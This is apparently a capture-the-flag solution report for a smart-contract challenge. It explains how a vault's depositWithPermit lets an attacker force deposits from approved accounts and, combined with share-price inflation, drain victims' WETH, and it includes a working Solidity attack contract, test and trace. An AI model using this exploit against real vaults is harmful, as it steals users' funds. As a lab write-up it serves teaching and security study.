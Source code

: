 # Challenge 5: Balloon Vault - Solution Report

## Problem Overview

### Contract Summary

The challenge involves two main contracts:

1. `BallonVault`: An ERC4626 compliant vault contract that allows users to deposit WETH tokens and receive shares in return.

   - Key function: `depositWithPermit()` - Allows depositing tokens using EIP-2612 permit functionality.

2. `WETH`: A wrapped Ether contract that allows users to deposit ETH and receive WETH tokens.
   - Key functions: `deposit()`, `withdraw()`, `transfer()`

### Initial Setup

- Attacker starts with 10 ETH
- Bob and Alice each have 500 WETH
- Bob and Alice have approved the vault to spend 500 WETH each

### Success Criteria

- Drain Bob's and Alice's wallets
- Attacker ends up with more than 1000 WETH in their wallet

## Vulnerability

The vulnerability in this challenge lies in the `depositWithPermit` function of the `BallonVault` contract:

```solidity
function depositWithPermit(address from, uint256 amount, uint256 deadline, uint8 v, bytes32 r, bytes32 s)
    external
{
    IERC20Permit(address(asset())).permit(from, address(this), amount, deadline, v, r, s);

    _deposit(from, from, amount, previewDepost(amount));
}
```

This function allows anyone to force a deposit from any address that has approved the vault to spend their tokens, even without a valid permit signature. This is because:

1. The WETH token used doesn't implement the `permit` function, so the call to `permit` always succeeds without setting any approvals.
2. The function doesn't verify that the `from` address actually signed the permit or approved the transaction.

As a result, an attacker can call this function to deposit WETH from Bob's and Alice's accounts into the vault without their consent, as long as they have previously approved the vault to spend their WETH (which they have in the initial setup). This vulnerability allows the attacker to manipulate the vault's balance and ultimately drain the WETH from Bob's and Alice's accounts.

## Attack Process

The attack exploits the vulnerability in the `depositWithPermit` function to drain WETH from Bob's and Alice's accounts. The process involves the following steps:

1. **Initial Setup**:

   - Deploy the attack contract with references to the WETH and BallonVault contracts.
   - Convert some of the attacker's ETH to WETH and transfer it to the attack contract.

2. **Attack Loop**: For each victim (Alice and Bob), repeat the following steps until their WETH balance is drained:

   a. **Minimal Deposit**:

   - Deposit 1 wei of WETH into the vault to receive 1 share.
   - This gives the attacker the ability to withdraw funds later.

   b. **Donation**:

   - Transfer the remaining WETH balance directly to the vault.
   - This artificially inflates the vault's total assets without minting new shares.

   c. **Forced Deposit**:

   - Call `depositWithPermit` to force a deposit from the victim's account.
   - The amount deposited is equal to the donation amount or the victim's entire balance, whichever is smaller.
   - This mints new shares for the victim based on the inflated asset total.

   d. **Withdrawal**:

   - Redeem the attacker's single share.
   - Due to the inflated asset total, this single share is now worth significantly more than the initial deposit.

3. **Final Withdrawal**:
   - After draining both Alice's and Bob's accounts, withdraw all WETH from the attack contract to the attacker's address.

This process allows the attacker to gradually extract WETH from the victims' accounts by manipulating the vault's share price. Each iteration of the loop transfers a portion of the victim's WETH to the attacker, eventually draining their entire balance.

## Proof of Concept (PoC)

### Core Implementation

The core of the attack is implemented in the `BallonVaultAttack` contract. Here's the main `attack` function that executes the exploit:

```solidity
function attack(address victim) external {
    require(msg.sender == attacker, "Only attacker can attack");
    require(weth.balanceOf(address(this)) > 0, "Contract has no WETH balance");
    require(weth.balanceOf(victim) > 0, "Victim has no WETH balance");

    while (weth.balanceOf(victim) > 0) {
        // Step 1: Deposit 1 wei to get 1 share
        weth.approve(address(vault), 1);
        vault.deposit(1, address(this));

        // Step 2: Transfer remaining balance directly to vault
        uint256 donationAmount = weth.balanceOf(address(this));
        weth.transfer(address(vault), donationAmount);

        // Step 3: Force victim's deposit
        uint256 victimBalance = weth.balanceOf(victim);
        uint256 amountToSteal = victimBalance < donationAmount ? victimBalance : donationAmount;
        vault.depositWithPermit(victim, amountToSteal, 0, 0, 0, 0);

        // Step 4: Withdraw all funds
        vault.redeem(1, address(this), address(this));
    }
}
```

The exploit is executed in the `testExploit` function of the `Challenge5Test` contract:

```solidity
function testExploit() public {
    vm.startPrank(attacker);

    // Deploy the attack contract
    BallonVaultAttack attackContract = new BallonVaultAttack(address(weth), address(vault));

    // send attacker 10 WETH to the attack contract
    weth.deposit{value: 10 ether}();
    weth.transfer(address(attackContract), 10 ether);

    // Attack alice to drain the WETH balance
    attackContract.attack(alice);

    // Attack bob to drain the WETH balance
    attackContract.attack(bob);

    // Withdraw all WETH to attacker
    attackContract.withdraw();

    vm.stopPrank();

    assertGt(weth.balanceOf(address(attacker)), 1000 ether, "Attacker should have more than 1000 ether");
}
```

### Running Result

```
Traces:
  [1772046] Challenge5Test::testExploit()
    ├─ [0] VM::startPrank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← [Return]
    ├─ [509634] → new BallonVaultAttack@0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a
    │   └─ ← [Return] 2212 bytes of code
    ├─ [29362] WETH::deposit{value: 10000000000000000000}()
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], value: 10000000000000000000 [1e19])
    │   └─ ← [Stop]
    ├─ [24994] WETH::transfer(BallonVaultAttack: [0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a], 10000000000000000000 [1e19])
    │   ├─ emit Transfer(from: attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], to: BallonVaultAttack: [0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a], value: 10000000000000000000 [1e19])
    │   └─ ← [Return] true
    ├─ [954045] BallonVaultAttack::attack(alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6])

// ...
// ...

    ├─ [24866] BallonVaultAttack::withdraw()
    │   ├─ [585] WETH::balanceOf(BallonVaultAttack: [0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a]) [staticcall]
    │   │   └─ ← [Return] 1010000000000000000000 [1.01e21]
    │   ├─ [22994] WETH::transfer(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], 1010000000000000000000 [1.01e21])
    │   │   ├─ emit Transfer(from: BallonVaultAttack: [0x959951c51b3e4B4eaa55a13D1d761e14Ad0A1d6a], to: attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], value: 1010000000000000000000 [1.01e21])
    │   │   └─ ← [Return] true
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [585] WETH::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 1010000000000000000000 [1.01e21]
    └─ ← [Stop]
```
